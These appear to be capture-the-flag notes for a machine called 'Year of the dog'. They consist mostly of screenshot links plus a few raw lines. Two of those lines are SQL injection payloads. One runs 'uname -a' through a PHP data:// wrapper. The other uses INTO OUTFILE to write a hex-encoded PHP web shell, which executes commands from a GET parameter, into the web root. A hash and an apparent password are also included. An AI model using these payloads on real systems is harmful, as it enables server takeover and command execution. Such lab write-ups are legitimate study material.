# Year of the dog
20 August 2022
10:25 PM













union all select 1,'data://text/plain,\<?php echo system("uname
-a");?\>'-- -





3a88c8426b0218278e13ee00ab991fc0' INTO OUTFILE
'/var/www/html/rev-shell.php' LINES TERMINATED BY
0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E--
-







Cda3RsDJga





 




dylanLabr4d0rs4L1f3
